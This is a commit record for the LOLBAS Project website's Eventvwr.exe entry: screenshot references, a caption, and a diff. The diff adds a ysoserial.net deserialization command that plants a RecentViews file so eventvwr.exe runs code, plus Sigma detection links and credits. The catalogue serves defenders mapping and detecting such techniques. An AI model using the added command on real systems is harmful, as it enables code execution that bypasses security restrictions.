

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Eventvwr.md, in a window 1280 px wide and 1400 px high, scrolled down 134 px. Shown: the top 1330 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1091 px from its top, so only the background shows below that.

Commit message:
Applying update LOLBAS-Project/LOLBAS@8452c1ca9643c56cccfd28796838c3e53facc638

```diff
--- a/_lolbas/Binaries/Eventvwr.md
+++ b/_lolbas/Binaries/Eventvwr.md
@@ -11,6 +11,13 @@ Commands:
     Privileges: User
     MitreID: T1548.002
     OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
+  - Command: ysoserial.exe -o raw -f BinaryFormatter - g DataSet -c calc > RecentViews & copy RecentViews %LOCALAPPDATA%\Microsoft\EventV~1\RecentViews & eventvwr.exe
+    Description: During startup, eventvwr.exe uses .NET deserialization with %LOCALAPPDATA%\Microsoft\EventV~1\RecentViews file. This file can be created using https://github.com/pwntester/ysoserial.net
+    Usecase: Execute a command to bypass security restrictions that limit the use of command-line interpreters.
+    Category: Execute
+    Privileges: Administrator
+    MitreID: T1202
+    OperatingSystem: Windows 7, Windows 8, Windows 8.1, Windows 10
 Full_Path:
   - Path: C:\Windows\System32\eventvwr.exe
   - Path: C:\Windows\SysWOW64\eventvwr.exe
@@ -19,6 +26,7 @@ Code_Sample:
 Detection:
   - Sigma: https://github.com/SigmaHQ/sigma/blob/b08b3e2b0d5111c637dbede1381b07cb79f8c2eb/rules/windows/process_creation/process_creation_sysmon_uac_bypass_eventvwr.yml
   - Sigma: https://github.com/SigmaHQ/sigma/blob/b08b3e2b0d5111c637dbede1381b07cb79f8c2eb/rules/windows/registry_event/registry_event_uac_bypass_eventvwr.yml
+  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_uac_bypass_eventvwr.yml
   - Elastic: https://github.com/elastic/detection-rules/blob/d31ea6253ea40789b1fc49ade79b7ec92154d12a/rules/windows/privilege_escalation_uac_bypass_event_viewer.toml
   - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/eventvwr_uac_bypass.yml
   - IOC: eventvwr.exe launching child process other than mmc.exe
@@ -26,9 +34,12 @@ Detection:
 Resources:
   - Link: https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
   - Link: https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-EventVwrBypass.ps1
+  - Link: https://twitter.com/orange_8361/status/1518970259868626944
 Acknowledgement:
   - Person: Matt Nelson
     Handle: '@enigma0x3'
   - Person: Matt Graeber
     Handle: '@mattifestation'
+  - Person: Orange Tsai
+    Handle: '@orange_8361'
 ---
```
